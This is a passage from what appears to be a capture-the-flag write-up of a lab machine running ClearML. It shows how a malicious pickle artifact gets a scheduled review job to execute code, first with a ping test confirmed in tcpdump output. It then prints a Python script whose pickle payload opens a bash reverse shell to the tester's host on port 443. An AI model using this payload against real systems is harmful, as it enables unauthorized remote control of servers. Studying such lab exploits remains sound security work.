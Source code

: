 ![image-20240613133504116](/img/image-20240613133504116.png)

Or by updating the `Task.init` call in my script:

```

task = Task.init(project_name="Black Swan", task_name="0xdfping", tags=["review"])

```

When the “Review JSON Artifacts” job runs:

[![image-20240613133627579](/img/image-20240613133627579.png)*Click for full size image*](/img/image-20240613133627579.png)

I’ll get ICMP:

```

oxdf@hacky$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
13:36:03.757712 IP 10.10.11.19 > 10.10.14.6: ICMP echo request, id 8, seq 1, length 64
13:36:03.757743 IP 10.10.14.6 > 10.10.11.19: ICMP echo reply, id 8, seq 1, length 64

```

This job deletes my task on completion. Sometimes this job fails without getting execution, and doesn’t delete the task. Typically in this case, it works on the next run without any further action. The author of the box was under the impression this never worked, and thus had a much more difficult path to make it work reliably. I’ll show that in [Beyond Root](#exploit-stability-fixing).

### Shell

To get a shell, I’ll update my `create_payload.py` script:

```

#!/usr/bin/env python3

import pickle
import os
from clearml import Task

class RunCommand:
    def __reduce__(self):
        return (os.system, ('bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"',))

command = RunCommand()

task = Task.init(project_name="Black Swan", task_name="0xdfshell", tags=["review"])
task.upload_artifact(name="sploit", artifact_object=command, retries=2, wait_on_upload=True, extension_name=".pkl")

```
